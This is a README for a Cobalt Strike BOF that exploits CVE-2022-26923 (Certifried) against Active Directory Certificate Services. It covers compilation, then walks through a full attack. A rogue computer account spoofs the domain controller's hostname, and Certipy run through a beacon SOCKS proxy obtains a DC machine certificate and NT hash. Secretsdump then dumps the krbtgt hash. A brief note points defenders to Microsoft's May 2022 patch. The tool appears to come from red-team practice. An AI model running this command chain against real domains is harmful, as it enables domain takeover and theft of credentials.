 # CVE-2022-26923 BOF

A BOF version of the Active Directory Certificate Services (AD CS) Domain Privilege Escalation exploit (CVE-2022-26923) published by [@ly4k_](https://twitter.com/ly4k_).
This code is based on our [AddMachineAccount](https://github.com/outflanknl/C2-Tool-Collection/tree/main/BOF/AddMachineAccount) BOF with some minor changes regarding the `dNSHostName` and `servicePrincipalName` attributes.

For all technical details refer to the following excellent blogpost by Oliver Lyak ([@ly4k_](https://twitter.com/ly4k_)): [Certifried: Active Directory Domain Privilege Escalation (CVE-2022–26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4).

## How to compile
1. Make sure that Mingw-w64 (including mingw-w64-binutils) has been installed.
2. Enter the SOURCE folder within the tool folder.
3. Type "make" to compile the object files.
4. Use Cobal Strike script manager to import the `CVE-2022-26923.cna` script.

## Usage
Running the tools is straightforward. Once you imported the CNA script using Cobalt Strike's Script Manager, they are available as Cobalt Strike commands that can be executed within a beacon. This tools supports the following commands:

* `CVE-2022-26923 [*Computername] [Optional Password]`

*\* Computername does not have to end with an **$** ​​character.*

## Example attack
Create a new computer account named `DCPWN` with the `dNSHostName` attribute set to the domain controller's FQDN.

```
CVE-2022-26923 DCPWN
```

If the DC is not patched and the new computer account is successfully created, configure a SOCKS proxy on the beacon.

```
socks <port>
```

On the teamserver, or any other machine that can access the socks port on the teamserver, install [Certipy](https://github.com/ly4k/Certipy). Use Certipy in combination with proxychains to request a machine certificate.

```
proxychains certipy req 'example.local/DCPWN$:<Password>@<CA server IP>' -ca <CA-NAME> -template Machine
```

Then, use Certipy in combination with proxychains to authenticate to the domain using the requested certificate.

```
proxychains certipy auth -pfx dc2019.pfx -dc-ip <DC IP>
```

Finally, use the obtained NT hash of the domain controller to stage other attacks (such as performing a DCsync operation).

```
proxychains secretsdump.py 'example.local/DC2019$@<DC IP>' -hashes :<DC NT Hash> -just-dc-user krbtgt
```

## Note to Blue
To mitigate the vulnerability install Microsoft's [patches](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923) released on May 2022.

## Support
This BOF tool has been successfully compiled on Mac OSX systems and used on Windows 8.1+ (x64) systems. Compiling the BOF code should also work on other systems (Linux, Windows) that have the Mingw-w64 compiler installed.
